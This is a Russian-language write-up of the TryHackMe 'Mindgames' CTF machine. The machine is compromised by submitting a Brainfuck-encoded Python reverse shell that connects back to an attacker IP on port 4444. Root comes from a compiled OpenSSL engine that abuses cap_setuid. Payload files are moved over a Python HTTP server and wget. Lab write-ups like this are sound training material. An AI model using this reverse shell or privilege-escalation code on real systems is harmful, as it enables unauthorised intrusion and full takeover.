 # Mindgames

:white_check_mark:  [**Brainfuck**](#brainfuck)

:white_check_mark: [**Shell stabilisation**](#stable)

:white_check_mark: [**Openssl(capabilities)**](#openssl_cap)

:white_check_mark: [**Sending files**](#files_send)
___

## Enumeration
Сканируем ip командой:
```
nmap -sC -sV mind.thm
```

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 24:4f:06:26:0e:d3:7c:b8:18:42:40:12:7a:9e:3b:71 (RSA)
|   256 5c:2b:3c:56:fd:60:2f:f7:28:34:47:55:d6:f8:8d:c1 (ECDSA)
|_  256 da:16:8b:14:aa:58:0e:e1:74:85:6f:af:bf:6b:8d:58 (ED25519)
80/tcp open  http    Golang net/http server (Go-IPFS json-rpc or InfluxDB API)
|_http-title: Mindgames.
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Главная страница **mind.thm**:

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/Mindgames/1.png)

<a name="brainfuck"></a>

## Getting shell
Видим набор странных символов. Так выглядит **brainfuck**. Перейдем на сайт [dcode](https://www.dcode.fr/brainfuck-language) и раскодируем текст.
```
+[------->++<]>++.++.---------.+++++.++++++.+[--->+<]>+.------.++[->++<]>.-[->+++++<]>++.+++++++..+++.[->+++++<]>+.------------.---[->+++<]>.-[--->+<]>---.+++.------.--------.-[--->+<]>+.+++++++.>++++++++++.
```
```
print("Hello, World")
```

Попробуем подставить закодированный вариант кода в строку для ввода данных. Получаем ответ: **Hello, World**. Приложение обрабатывает закодированный запрос и выдает ответ. Загрузим туда обратную оболочку.

Обратная оболочка:
```
import pty
import socket,os
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("10.8.61.235",4444))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
pty.spawn("/bin/bash")
```

Вставим код на [сайте](https://www.splitbrain.org/services/ook) для кодирования(на нем проще скопировать код, чем на dcode). Получаем ответ, копируем его и вставляем в наше приложение.

Предварительно запустив слушатель, получаем обратную оболочку.

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/Mindgames/2.png)

<a name="stable"></a>

Стабилизируем оболочку командами:
```
python3 -c 'import pty;pty.spawn("/bin/bash")'
export TERM=xterm
CTRL+z
stty raw echo; fg
```

<a name="openssl_cap"></a>

## Getting root
Загрузим linpeas на машину и запустим скрипт. Он найдет нам интересные capabilities:

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/Mindgames/3.png)

Найдем в интернете [эксплоит](https://chaudhary1337.github.io/p/how-to-openssl-cap_setuid-ep-privesc-exploit/)

Создадим файл с названием **openssl-exploit-engine.c** и запишем в него следующий код:
```
#include <openssl/engine.h>

static int bind(ENGINE *e, const char *id)
{
  setuid(0); setgid(0);
  system("/bin/bash");
}

IMPLEMENT_DYNAMIC_BIND_FN(bind)
IMPLEMENT_DYNAMIC_CHECK_FN()
```

(Предварительно установим нужные пакеты командой **sudo apt-get install libssl-dev**).

Скомпилируем код командами:
```
gcc -fPIC -o openssl-exploit-engine.o -c openssl-exploit-engine.c
gcc -shared -o openssl-exploit-engine.so -lcrypto openssl-exploit-engine.o
```

Отправим наш скомпилированный файл на удаленную машину и запустим командой:
```
openssl req -engine ./openssl-exploit-engine.so
```

Получаем рут

<a name="files_send"></a>

## Extra
Чтобы отправить файл на удаленную машину переходим в директорию с нужным нам файлом. Открываем питон сервер командой:
```
python3 -m http.server 2222
```

На удаленной машине с помощью **wget** или **curl** скачиваем нужный нам файл:
```
wget http://your-ip/2222/openssl-exploit-engine.so
```

![](https:/github.com/fobblified/Writeups/blob/main/Tryhackme/assets/Mindgames/4.png)

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/Mindgames/5.png)
